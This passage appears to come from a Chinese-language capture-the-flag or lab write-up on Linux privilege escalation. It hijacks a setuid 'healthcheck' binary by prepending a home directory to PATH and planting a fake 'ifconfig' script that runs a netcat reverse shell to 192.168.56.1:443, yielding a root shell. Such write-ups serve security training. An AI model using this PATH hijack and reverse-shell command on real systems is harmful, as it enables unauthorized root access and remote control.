8.0K	./.gconf/apps/panel/objects/browser_launcher
8.0K	./.gconf/apps/panel/objects/object_1
52K	./.gconf/apps/panel/objects
220K	./.gconf/apps/panel
392K	./.gconf/apps
8.0K	./.gconf/desktop/gnome/sound
8.0K	./.gconf/desktop/gnome/file_views
8.0K	./.gconf/desktop/gnome/background
8.0K	./.gconf/desktop/gnome/interface
8.0K	./.gconf/desktop/gnome/accessibility/keyboard
12K	./.gconf/desktop/gnome/accessibility
8.0K	./.gconf/desktop/gnome/url-handlers/mailto
8.0K	./.gconf/desktop/gnome/url-handlers/http
8.0K	./.gconf/desktop/gnome/url-handlers/chrome
8.0K	./.gconf/desktop/gnome/url-handlers/ftp
8.0K	./.gconf/desktop/gnome/url-handlers/https
44K	./.gconf/desktop/gnome/url-handlers
8.0K	./.gconf/desktop/gnome/peripherals/mouse
12K	./.gconf/desktop/gnome/peripherals
104K	./.gconf/desktop/gnome
108K	./.gconf/desktop
504K	./.gconf
4.0K	./Music
32K	./.pki/nssdb
36K	./.pki
4.0K	./.icons
du: cannot access `./.gvfs': Permission denied
60K	./.gconfd
4.0K	./Videos
34M	./Downloads
4.0K	./.adobe/Flash_Player/AssetCache/9PFREZ9W
8.0K	./.adobe/Flash_Player/AssetCache
12K	./.adobe/Flash_Player
16K	./.adobe
344K	./Pictures
72M	.
```

### Strings

发现可劫持的系统命令，例如ifconfig。

```bash
[medical@localhost ~]$ strings /usr/bin/healthcheck
strings /usr/bin/healthcheck
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
```

## Env escalation privilege

查看当前用户的环境变量。

```bash
[medical@localhost ~]$ echo $PATH
echo $PATH
/sbin:/usr/sbin:/bin:/usr/bin:/usr/lib/qt4/bin
```

修改环境变量。

```bash
[medical@localhost ~]$ export PATH=/home/medical:$PATH
export PATH=/home/medical:$PATH
[medical@localhost ~]$ echo $PATH
echo $PATH
/home/medical:/sbin:/usr/sbin:/bin:/usr/bin:/usr/lib/qt4/bin
[medical@localhost ~]$
```

在/home/medical目录下制作用于替代系统ifconfig的恶意bash脚本。

```bash
echo "/bin/id" >> ifconfig
echo "/usr/bin/nc 192.168.56.1 443 -e /bin/sh" >> ifconfig
chmod +x ifconfig
```

最终成功get root shell。




